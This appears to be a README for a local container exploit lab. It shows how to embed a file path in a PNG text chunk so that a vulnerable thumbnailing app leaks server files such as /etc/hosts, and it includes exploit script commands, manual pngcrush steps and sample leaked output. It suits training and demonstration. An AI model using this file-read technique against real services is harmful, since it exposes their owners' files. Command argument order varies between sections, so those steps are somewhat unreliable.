 ## Container exploit playground

WIP

### Prerequisites on local machine:
* [Docker Desktop](https://docs.docker.com/get-docker/) (or similar)
* [pngcrush](https://pmt.sourceforge.io/pngcrush/)
* [Python 3](https://www.python.org/)
* [curl](https://github.com/curl/curl)
* _Optional but helpful for troubleshooting:_ [exiv2](https://exiv2.org/) 

### Steps to run (build from the vulnerable-app folder):
* Build the image: `docker build -t poc .`
* Run the vulnerable app: `docker run --rm -p 5001:5000 poc`
* Use the exploit.py script to trigger the exploit (examples use the k8s.png file in this repo, you can use your own if you want):
  * Encode a png file with the file you want to cat: `./exploit.py encode k8s.png /etc/hosts`
  * Upload the encoded file to the vulnerable app: `./exploit.py upload localhost:5001 encoded-k8s.png`
  * Decode the returned file: `./exploit.py decode localhost:5001 result.png`

#### Example output:
```shell
$ ./exploit.py encode k8s.png /etc/hosts
Encoding /etc/hosts into k8s.png as encoded-k8s.png ...
File encoded as encoded-k8s.png

$ ./exploit.py upload encoded-k8s.png localhost:5001
Sending encoded-k8s.png to localhost:5001...
Thumbnailed image received as result.png

$ ./exploit.py decode result.png 
Decoding content from /Users/eric/work/git/container-goof/result.png...

127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      72641ba685c6

```

Manual Steps:
1. Build and run the vulnerable app as above
2. Encode the file you want to cat into the image: `pngcrush -text a "profile" "/etc/hosts" pngin.png pngout.png`
3. Upload the file to the webapp at http://localhost:5001/ (thumbnailed image will auto-download)
4. Decode the image file via `docker run --rm -it -v /full/path/to/resized-image.png:/result.png node identify -verbose /result.png`
